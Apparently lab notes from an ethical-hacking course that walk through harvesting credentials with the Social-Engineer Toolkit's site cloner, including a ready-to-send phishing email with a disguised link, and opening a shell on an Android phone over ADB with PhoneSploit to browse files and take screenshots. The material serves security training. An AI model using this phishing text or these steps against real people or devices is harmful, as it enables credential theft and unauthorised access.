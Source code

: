 ### Task 2: Harvest Users’ Credentials using the Social-Engineer Toolkit

+ Open the `terminal`
+ sudo su
+ cd social-engineer-toolkit
+ ./setoolkit
+ The `SET` menu appears, as shown in the screenshot. Type `1` and press `Enter` to choose `Social-Engineering Attacks`
+ A list of options for `Social-Engineering Attacks` appears; type `2` and press `Enter` to choose `Website Attack Vectors`
+ A list of options in `Website Attack Vectors` appears; type `3` and press `Enter` to choose `Credential Harvester Attack Method`
+ Type `2` and press `Enter` to choose `Site Cloner` from the menu
+ Type the IP address of the local machine (`10.10.1.13`) in the prompt for “`IP address for the POST back in Harvester/Tabnabbing`” and press `Enter`
+ Now, you will be prompted for the URL to be cloned; type the desired URL in “`Enter the url to clone`” and press `Enter`. In this task, we will clone the URL `http://certifiedhacker.com/Online%20Booking/index.htm`
+ Login to gmail using firefox and craft an email
  
      Reciepient: 
      Subject: SECURE YOUR ONLINE BOOKING ACCOUNT
      Message: 
      Hi, Team

      We are writing to inform you that your password for your online booking account has expired, as a result, it is no longer valid.

      This email has been sent to safeguard your account against any unauthorised activity. To Change your account password, click the below link to navigate to your account and change password.

      [http://www.bookhotel.com/change_account_password] (http://10.10.1.13)

+ Send the email to the intended reciepient
+ Login to the `Android`
+ Open `Chrome` and login to `gmail`
+ Click and open the malicious link
+ Enters the Username and Password and clicks Login
+ In the terminal window, scroll down to find an Username and Password

### Task 4: Exploit the Android platform through ADB using PhoneSploit

+ Open the `terminal`
+ sudo su
+ cd PhoneSploit
+ python3 -m pip install colorama
+ python3 phonesploit.py
+ Type `3` and press `Enter` to select `[3] Connect a new phone option`
+ When prompted to `Enter a phones ip address`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
  + Enter `3` until you get `Enter a phones ip address option`
+ Now, at the `main_menu` prompt, type `4` and press `Enter` to choose `Access Shell on a phone`
+ When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
+ pwd
+ ls
+ cd sdcard
+ ls
+ cd Download
+ ls
+ exit
+ At the `main_menu` prompt, type `7` and press `Enter` to choose `Screen Shot a picture on a phone`